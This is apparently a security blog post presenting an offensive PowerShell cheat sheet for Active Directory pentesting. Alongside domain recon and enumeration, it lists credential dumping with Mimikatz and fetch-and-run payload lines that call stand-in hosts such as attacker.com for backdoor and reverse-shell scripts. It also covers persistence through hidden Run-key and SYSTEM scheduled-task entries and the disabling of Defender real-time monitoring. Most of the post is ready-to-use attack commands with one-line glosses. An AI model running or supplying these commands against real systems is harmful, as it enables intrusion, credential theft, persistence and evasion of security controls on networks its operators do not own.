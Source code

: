 ```yaml
---
title: "Power-S-Hell"
date: 2025-04-10 +0530
categories: [Cyber-Security]
tags: [powershell, power, hell, history, file, active-directory, windows, recon, ad, lateral-movement, persistence, evasion]
order: 4
image: /assets/images/Cyber-Security/Power-S-Hell.png
---
```


This is a collection of PowerShell one-liners for **Active Directory (AD) pentesting**, including recon, enumeration, lateral movement, persistence, evasion, and payload delivery.

## 🧾 PowerShell History File

```
C:\Users\user01\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

Stored command history — often contains creds, recon, or tooling clues.

## 🏷️ Whoami & Token Info

```powershell
whoami /all
whoami /priv
Get-ProcessTokenPrivilege
```

View current user identity, privileges, and token info.

## 🧠 Domain Info

```powershell
(Get-WmiObject Win32_ComputerSystem).Domain
(Get-ADDomain).Forest
(Get-ADDomainController -Discover).Name
```

Get basic domain and forest information.

## 🔍 User Enumeration

```powershell
Get-ADUser -Filter * -Properties DisplayName,Description | select Name,DisplayName,Description
net user /domain
```

Enumerate domain users with additional context.

## 🖥️ Computer Enumeration

```powershell
Get-ADComputer -Filter * | Select-Object Name,OperatingSystem,LastLogonDate
```

List domain-joined systems with OS and last login info.

## 🏠 Group Memberships

```powershell
net group "Domain Admins" /domain
Get-ADGroupMember "Domain Admins"
```

Check domain admin members.

## 🔐 Password Policy & Trusts

```powershell
(Get-ADDefaultDomainPasswordPolicy)
Get-ADTrust -Filter *
```

Inspect domain password requirements and trust relationships.

## 🔎 Current Session Info

```powershell
qwinsta
query user
```

See who’s currently logged in.

## 💻 Network Shares Discovery

```powershell
net view /domain
net view \\targethost
Invoke-ShareFinder -Verbose
```

Enumerate visible network shares.

## 📁 Share Access Test

```powershell
Invoke-CheckLocalAdminAccess -ComputerName targethost
Invoke-SmbEnum -ComputerName targethost
```

Check access rights and share contents remotely.

## 🔓 Kerberoasting Candidates

```powershell
Get-ADUser -Filter * -Properties ServicePrincipalName | Where-Object { $_.ServicePrincipalName -ne $null } | Select SamAccountName, ServicePrincipalName
```

Find SPN-enabled accounts for ticket extraction.

## 📬 Mailbox Discovery

```powershell
Get-ADUser -Filter * -Properties mail | Where-Object {$_.mail -ne $null} | Select Name, mail
```

List domain users with email addresses.

## 🧠 BloodHound Ingestors (SharpHound)

```powershell
Invoke-WebRequest -Uri http://<attacker>/SharpHound.exe -OutFile SharpHound.exe
.\SharpHound.exe -c All
```

Collect AD data for analysis in BloodHound.

## 🔑 Dump Hashes (if Admin)

```powershell
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"'
```

Dump logon credentials from memory.

## 🕵️‍♂️ DNS + Reverse Lookup

```powershell
Resolve-DnsName target.domain.local
[System.Net.Dns]::GetHostEntry("192.168.1.100")
```

Identify IPs and names within the domain.

## 📦 Remote Payload Execution

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://attacker/payload.ps1')
```

Load and run remote scripts in memory.

## 🔀 Lateral Movement

```powershell
Invoke-WMICommand -ComputerName target -Command "whoami"
Invoke-Command -ComputerName target -ScriptBlock { hostname }
Enter-PSSession -ComputerName target
Invoke-SMBExec -Target target -Command "ipconfig /all"
```

Remotely execute commands or enter sessions.

## 🧬 Persistence

```powershell
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Update" -Value "powershell.exe -WindowStyle Hidden -Command 'IEX (New-Object Net.WebClient).DownloadString(`'http://attacker/payload.ps1`')'"
```

Add script to startup via registry key.

```powershell
schtasks /create /tn "Updater" /tr "powershell -WindowStyle Hidden -ExecutionPolicy Bypass -File update.ps1" /sc minute /mo 5 /ru SYSTEM
```

Create recurring scheduled task for persistence.

## 🎭 Defender Evasion

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Add-MpPreference -ExclusionPath "C:\Users\Public"
powershell -exec bypass -w hidden -EncodedCommand <base64payload>
```

Disable Defender and hide payload execution.

## 💥 Custom Payload Execution

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/backdoor.ps1')
powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://attacker.com/rev.ps1')"
Invoke-Expression (New-Object Net.WebClient).DownloadString('http://attacker/shell.ps1')
```

Alternate ways to launch remote payloads.